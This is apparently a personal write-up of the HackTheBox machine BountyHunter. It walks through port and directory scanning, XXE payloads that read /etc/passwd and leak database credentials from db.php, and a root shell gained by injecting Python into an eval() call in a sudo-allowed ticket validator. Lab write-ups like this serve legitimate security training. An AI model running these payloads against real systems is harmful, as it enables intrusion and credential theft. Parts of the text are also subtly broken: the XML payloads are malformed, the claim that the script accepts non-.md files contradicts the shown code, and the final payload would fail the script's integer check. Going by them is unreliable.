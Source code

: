 HTB - Bughunter (easy)  
**bug**: xxe  

**nmap**  
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**  
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to https://rhost/portal.php    
check sources  
click https://rhost/log_submit.php  
open burp, capture request on submit  
you can see POST request to /tracker_diRPrOOf314.php  
check data to inspector  
the data is base64 and url encoded   

![[Pasted image 20250505191745.png]]

----
**exploitation thru XXE**   
capture POST request   
https://rhost/tracker_diRPrOOf314.php  
you can see XML format being rendered in frontend  
the `title` (entity) including its values are reflected  

**(encoding)**   
use Hackverter ext on burp suite  
select Encode tab  
select urlencode and base64  
  
  
**sensitive file read XXE**  
change the requested XML with this edited request  

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering wrapper**  
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:  
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal  
echo "the td data type shit" | base64 -d  
connect to the machine with SSH  

----
**finding privesc path**  

the user ``development`` has user privilege  
run ``sudo -l`` to check it  
now you can see a script that requrires ``NOPASSWD`` to run  

![[Pasted image 20250506105932.png]]

TicketValidator.py python script:  
```
#!/usr/bin/env python3

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for irregularities.
    code_line = None
    for i, x in enumerate(ticketFile.readlines()):
        if not x.startswith("# Skytrain Inc"):
            return False
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {''.join(x.strip().split(' ')[2:])}")
            continue
        if x.startswith("# Ticket Code: "):
            code_line = i+1
            continue
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("*")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
            return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

**flaws in the script**  
the script asks for a `.md` for tickets, but it still continues even if it's not `.md`  
so we can craft even a `.txt` file to act like a ticket and feed it to the script  
  
here's what i came up with  
```
# Skytrain Inc
## Ticket to Anywhere
# Ticket Code:
**__import__('os').system('/bin/sh')**
```

what it does is,   
it gives the script the minimum requirements it asks for tickets to be valid   
Line 1: `# Skytrain Inc` satisfies the first-line check.  
Line 2:` ## Ticket` to Anywhere meets the second-line requirement (the destination can be anything).  
Line 3: `# Ticket Code`: indicates the next line is the ticket code.  
Line 4: ``**__import__('os').system('/bin/sh')**`` is the payload.  

after that, it executes the `bin/sh` to spawn a root shell to the target machine
VOILA! BountyHunter PWNED!  